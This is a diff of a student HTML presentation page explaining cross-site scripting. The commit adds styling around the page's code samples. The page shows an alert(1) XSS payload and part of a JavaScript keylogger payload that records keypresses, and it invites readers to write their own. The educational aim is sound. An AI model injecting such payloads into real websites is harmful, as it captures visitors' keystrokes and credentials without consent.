

Before and after one commit to lorenrose1013/softDevHW, a plain HTML site: page presentation/index.html in a window 1280 px wide. Shown: the top 1040 px of the page at 94% size. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
prettified

```diff
--- a/presentation/index.html
+++ b/presentation/index.html
@@ -1,6 +1,18 @@
 <!DOCTYPE html>
 <html>
-	<h1> Cross Site Scripting! (XSS) </h1>
+  <style>
+            body {margin: 5% auto; background: #f2f2f2; color: #444444; font-family: 'Courier new'; font-size: 14px; line-height: 1.6;  max-width: 73%;}
+            #code {
+			    padding:35px;
+			    background: 	#808080;
+			    font-color: white;
+			    background-clip: content-box;
+			}
+            a {border-bottom: 1px solid #444444; color: #444444; text-decoration: none;}
+            a:hover {border-bottom: 0;}
+            h1, h2 {line-height: 1.3;}
+        </style>
+	<h1> Cross Site Scripting! (XSS) </h1> by Loren Maggiore
 		<h2>The Basics</h2>
 			<p>
 				Cross Site Scripting, more commonly known as XSS, is a type of web vulnerability that allows for the unintended execution of arbitrary javascript on a webpage. It occurs when user input is added to a webpage unsanitized, allowing users to inject html and javascript code, which the browser renders as if it came from the author of the page.
@@ -20,8 +32,11 @@
 		<h2>Exploiting XSS Vulns</h2>
 			<p>
 				Exploiting XSS vulns simply means getting a script code through any filtering, with some javascript payload enclosed. The simplest example is a plain:
-						"&lt;script&gt; alert(1) &lt;/script&gt;"
+					<center><br>
+					<div id="code">	&lt;script&gt; alert(1) &lt;/script&gt; </div>
+					<br></center>
 				The javascript inside the script tag is referred to as the payload. Your payload can be anything you can write in javascript. For example, a keylogger:
+					<br><div id="code"><center>
 						&lt;script&gt;
 						var keys=&#39;&#39;;
 						document.onkeypress = function(e) {
@@ -36,6 +51,7 @@
 						  keys = &#39;&#39;;
 						}, 1000);
 						&lt;/script&gt;
+					</div><br></center>
 				Try writing your own below!
 			</p>
 
```
